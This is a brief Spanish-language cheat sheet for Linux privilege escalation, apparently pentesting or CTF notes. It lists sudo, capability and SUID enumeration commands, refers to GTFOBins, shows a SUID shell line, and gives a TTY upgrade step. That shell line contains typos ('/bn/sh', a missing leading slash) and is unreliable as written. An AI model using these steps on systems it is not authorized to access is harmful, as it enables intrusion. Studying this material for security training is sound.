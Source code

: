 Primero de todo vamos a comprobar la versión de Linux con el siguiente comando

```shell
lsb_release -a
```

## Escalada de privilegios sudo -l
* Probamos a ejecutar la siguiente instrucción y comprobar que archivos puedo ejecutar como root.

```shell
sudo -l
```

A partir de ahí podemos buscar la carpeta y el exploit que se sirve de ello para poder entablar una rever shell

## Escalada de privilegios básico de las CAPABILITIES

```shell
getcap -r / 2>/dev/null
```


Se lista aquellos paquetes o servicios que puedo ejecutar como root.

```shell 
#Ejemplo
/usr/bin/perl = cap_setuid+ep
```

## Escalada de privilegios de binarios

* Buscamos los archivos que podemos ejecutar como root con el usuario actual
```shell
find / -perm -4000 2>/dev/null
```

consultamos el binario en GTFobins y buscamos si hay algun binario si podemos ejecutarlo con los permisos SUID.

El exploit tenemos que poner la ruta completa.

```shell
usr/bin/env /bn/sh -p 
```





# Tratamiento de la TTY 

En el caso de que no nos aparezca el promt tenemos que hacer el tratamiento de la tty 
ponemos lo siguiente:

```shell
script /dev/null -c bash
```